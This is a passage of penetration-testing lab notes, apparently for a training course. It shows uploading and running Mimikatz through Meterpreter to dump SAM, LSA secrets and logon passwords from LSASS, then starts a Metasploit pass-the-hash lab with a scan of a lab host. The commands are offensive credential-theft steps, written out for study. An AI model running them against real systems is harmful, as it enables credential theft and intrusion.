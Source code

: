### Hash Dumping - Mimikatz.exe

```bash
cd C:\\
mkdir Temp
cd Temp
upload /usr/share/windows-resources/mimikatz/x64/mimikatz.exe
shell
```

- Run `mimikatz.exe`

```bash
mimikatz.exe
privilege::debug
	Privilege '20' OK
# I have the required privileges for hash extraction from memory
```

- Dump the cache of the `lsass` process

```bash
lsadump::sam
lsadump::secrets
sekurlsa::logonPasswords
```

------

## Lab 5 - Pass-the-Hash with PsExec

> 🔬 [Windows: Meterpreter: Kiwi Extension](https://attackdefense.com/challengedetails?cid=2340) - same lab as Lab 4
>
> - Target IP: `10.2.28.123`
> - Check the [🔬Lab 3 - Pass-the-hash lab here](../1-system-attack/windows-attacks/creds-dump.md#lab-3-pass-the-hash) for full description
> - Metasploit **PsExec** module

```bash
service postgresql start && msfconsole -q
```

```bash
db_status
setg RHOSTS 10.2.28.123
setg RHOST 10.2.28.123
workspace -a PsExec
db_nmap -sV 10.2.28.123
```

```bash
80/tcp   open  http          BadBlue httpd 2.7
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
3389/tcp open  ms-wbt-server Microsoft Terminal Services
```
